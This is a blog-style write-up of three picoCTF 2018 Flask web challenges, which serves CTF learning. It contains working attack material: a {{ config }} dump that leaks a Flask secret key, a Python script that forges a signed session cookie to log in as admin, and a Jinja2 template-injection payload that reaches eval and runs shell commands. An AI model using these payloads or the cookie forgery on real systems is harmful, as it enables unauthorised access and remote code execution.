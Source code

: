 ```yaml
---
layout: post
title: picoCTF'18 - Flaskcards writeup
date: 2018-10-12
---
```


___
## Summary / TL;DR

I played in picoCTF again this year, and I think I performed a lot better than I did last year, especially in web, I wanted to share this writeup because I think I did a good job being the **<u>75th</u>** person (out of like 5000 other players) to solve the final part of this series of web challenges.

1. **Flaskcards** (350 pts)
2. **Flaskcards Skeleton Key** (600 pts)
3. **Flaskcards and Freedom** \[Highest point web challenge] (900 points)  

___
  

# Flaskcards

## Description / Hints / URL

We found [this](http://2018shell1.picoctf.com:51878/){:target="_blank"} fishy website for flashcards that we think may be sending secrets. Could you take a look? 

```
- Are there any common vulnerabilities with the backend of the website?
- Is there anywhere that filtering doesn't get applied?
- The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user
```

## Thought Process

Based on CTF playing experience, the challenge and flavourtext always gives hints about the vulnerability or at least a starting point. In this case `Flask` is a dead giveaway that it has something to do with the Flask webserver.

After registering and logging in, we are shown a navbar that gives us a bit more hinting. 
![navbar](https://vgy.me/YUkEMJ.png)

**Ccreate Cards** -- Allows users to enter input and save it  
**List Cards** -- Shows the saved input that was entered beforehand  
**Admin** -- Not important for this challenge, used in further challenge 

As an example:  
![list-create](https://vgy.me/HlN6i5.png)

Some experienced CTF players may know straight away what to do at this point, if not then well this is a sign of user input being reflected, which could be a few things, notably _Cross Site Scripting_ (XSS) or _Server-Side Template Injection_ (SSTI)

## Exploitation

First thing I tried was XSS because why not ?  
![xss-attempt](https://vgy.me/85lTVv.png)
Unfortunately the payloads were being escaped so by rule of elimination the other thing left to try was **SSTI** ! 

Not going to go into how **SSTI** works but essentially your input gets evaluated and the result is returned, not good for keeping secrets ... 

Here is an example probing payload:  
![4times4](https://vgy.me/2lWc1L.png)
 
## Flag 
The flag is most likely stored in the `SECRET_KEY` variable maintained internally by Flask, so we can use `{{ config }}` to dump out all the variables:  
![configz](https://vgy.me/bLucDr.png)

<div class="divider"></div>
# Flaskcards Skeleton Keys

## Description / Hints / URL
Nice! You found out they were sending the Secret_key: a155eb4e1743baef085ff6ecfed943f2. Now, can you find a way to log in as admin? http://2018shell1.picoctf.com:53588 .

```
- What can you do with a flask Secret_Key?
- The database still reverts every 2 hours
```
## Thought Process
This one took me awhile because I wasn't sure what I was doing wrong, but actually the answer is very staright forward ! The key is given to us: `a155eb4e1743baef085ff6ecfed943f2`.

We first grab the existing _non-admin_ session cookie off the site which is something like this:
```
.eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw
```
It goes without saying that when we visit the `/admin` page we don't get the flag, at least not yet ... 

 We know that secrets are usually used to sign cookies and a quick search on the interwebz gives us a nice and easy [program](https://gist.github.com/babldev/502364a3f7c9bafaa6db) to decrypt and encrypt our own cookies using the key :)

## Exploitation 
After some slight modification and experimenting the (cleaned-up) version of the script I used was:
```python 
#!/usr/bin/python

import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
salt = 'cookie-session'
serializer = TaggedJSONSerializer()

secret_key = "a155eb4e1743baef085ff6ecfed943f2"
cookie_str = ".eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw"

signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}

s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

print "=== User u ==="
print s.loads(cookie_str)
print ''

manipulate = s.loads(cookie_str)
manipulate['user_id'] = '1'.decode('utf-8')

print "=== MANIPULATED ==="
print manipulate
print ''
print s.dumps(manipulate)
print "======================="
```

The decrypted cookie had a user_id value which would determine whose session you logged in as, I kept failing because I was going after user_id **0** which is usually the admin, but I guess sometimes 1 is worth a try as well  

The manipulated cookie was:
```
.eJwlj0FqBDEMBP_i8x4kWZKl_cxiWTIJgQRmdk8hf8-EXPpQUFD93R77qPOt3Z_Hq27t8Z7t3mrxCJqYqPa3q1ZWgW_hQUEgOFzTwiHKpdtaHhp7StSojaNjRnAo46bUFDe4WAdSJ_etZQull9EwZCfo3G0KsE1WAJ_t1tZ57Mfz66M-rx6jHqGywzzLuGxPcNZII5Stk4QtcvbLe511_J_A9vMLlu8-QQ.DqETSg.MoGOf2Esi4EScYNpa8Y_hOikdbQ
```

By copying this value into the clipboard and repasting into a cookie editor, we can now visit the `/admin` page to get the flag ~ 

Note:  The cookie should **NOT** have a trailing newline, as this causes the cookie to not be parsed properly !     

## Flag 
![flag2](https://vgy.me/hX4nrZ.png)

<div class="divider"></div>
# Flaskcards and Freedom

## Description / Hints / URL
There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:52168

```
- There's more to the original vulnerability than meets the eye.
- Can you leverage the injection technique to get remote code execution?
- Sorry, but the database still reverts every 2 hours.
```

## Thought Process
Again, the title gives us a hint of what to do ... __Freedom__ relates to sandbox escaping, or in this case we just need to get _Remote Code Execution_ (RCE) somehow, in the 2nd challenge the templating bug was patched but is reintroduced again in this challenge. Therefore we know that this is a chance to do more **SSTI** stuff ! 


I'm really glad I took extended WebApps because I learnt how to do exactly this type of challenge, to learn how I constructed the payload, these two pages [(1)](https://0day.work/bsidessf-ctf-2017-web-writeups/#zumbo3){:target="_blank"} [(2)](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html){:target="_blank"} may help out ...

## Exploitation

After much experimentation and failure, the final crafted payload I managed to get working was this:
{% raw %}
```python
{{[].__class__.__base__.__subclasses__()[111].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat flag").read()') }}
```
{% endraw %}

## Flag 
After submitting this to **Create Card** our commands would be reflected back to us, it was as simple as doing `ls` followed by `cat flag` to obtain the flag !   
![image](https://vgy.me/LLFMGS.png)

